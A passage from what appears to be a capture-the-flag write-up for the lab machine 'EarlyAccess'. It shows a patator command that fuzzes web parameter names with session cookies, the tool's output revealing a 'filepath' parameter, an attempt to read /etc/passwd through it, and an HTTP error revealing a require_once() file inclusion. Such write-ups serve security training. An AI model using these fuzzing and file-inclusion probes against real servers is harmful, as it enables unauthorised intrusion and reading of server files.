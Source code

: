Fuzz the web application to determine the parameter's name. It appears that the unsuccessful attempts result in response sizes of 357 characters, so ignore those. The only outlier is the parameter `filepath`.

```bash
$ patator http_fuzz method=GET url='http://dev.earlyaccess.htb/actions/file.php?FILE0=/etc/passwd' header='Cookie: XSRF-TOKEN=eyJpdiI6IkJnUjkzN1BUSlRtMFZjS09WVlJtaHc9PSIsInZhbHVlIjoiZFJCS3c5eDlPZXJzS1V2S0ZyVTZxV3FGc0kySUkzTmpJcVBrOGFGV3RZMVhLSWtSYUViWmNLa29yL2c0VkNWWEh6YnpXL21YYjVZTzUrMFVSWTNHRDlRL2psQUFEeE83aHFuYzk5ZkFWT3AzaDY3VXJpcmF0Nm43eTVmVjZyTW8iLCJtYWMiOiI4NmM5NzFjY2MzNDc0ZGQ3MTZiYzk3NzgxNzU3N2NiMTA5OWUwYWEwYzM1OGI0MTUzMjA5NDRlMmVhNTI5OTc3In0%3D; earlyaccess_session=eyJpdiI6IlVDMDhnbFBobjF3c3JXWEFvOWdURXc9PSIsInZhbHVlIjoiQWdDTEYxRG9MNDBGQkMwOGQ2d290bFN4U2tMejY5dDI5UXROWjYwc1BEbFRCelcvSUZrd3NFcWtrcXdPQXYzeURCYjk1MVNEUmxiWlBYNVgvUFQ3emVKS2t0QVE0UXVLcmFOWHdZZFZ6V0ZYZS9JVHh5NVpLZFR1MWhHKy9pNTMiLCJtYWMiOiJhNDU3ZDFkOWRmYzcyZTliOWFkYzlmZmYwMDEzN2I3Y2NjNTEyZWU4YTcyODc1ZWYyZjQ5YmU3NTQ1YjRiMjg3In0%3D; PHPSESSID=16c4a8a50df5a5606f00a6dbadc599cc' 0=/usr/share/wordlists/seclists/Discovery/Web-Content/burp-parameter-names.txt -x ignore:size=357
18:27:19 patator    INFO - Starting Patator 0.9 (https://github.com/lanjelot/patator) with python-3.9.8 at 2022-02-16 18:27 EST
18:27:20 patator    INFO -
18:27:20 patator    INFO - code size:clen       time | candidate                          |   num | mesg
18:27:20 patator    INFO - -----------------------------------------------------------------------------
18:27:34 patator    INFO - 500  411:89         0.068 | filepath                           |  1316 | HTTP/1.1 500 Internal Server Error
18:27:49 patator    INFO - Hits/Done/Skip/Fail/Size: 1/2588/0/0/2588, Avg: 88 r/s, Time: 0h 0m 29s
```

Passing `/etc/passwd` into `filepath` indicates that the web application is filtering `filepath` to ensure it only contains files from the current directory. After much experimentation, the filtering seems solid.

Passing a nonexistent file in the current directory (i.e., `blah.php`) into `filepath` renders an error message that indicates `file.php` is passing `filepath` into PHP's `require_once()` function.

```http
HTTP/1.1 200 OK
Date: Wed, 16 Feb 2022 23:47:44 GMT
Server: Apache/2.4.38 (Debian)
X-Powered-By: PHP/7.4.21
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Vary: Accept-Encoding
Content-Length: 400
Connection: close
Content-Type: text/html; charset=UTF-8

<h2>Executing file:</h2><p>blah.php</p><br><br />
<b>Warning</b>:  require_once(blah.php): failed to open stream: No such file or directory in <b>/var/www/earlyaccess.htb/dev/actions/file.php</b> on line <b>19</b><br />
<br />
<b>Fatal error</b>:  require_once(): Failed opening required 'blah.php' (include_path='.:.') in <b>/var/www/earlyaccess.htb/dev/actions/file.php</b> on line <b>19</b><br />
```

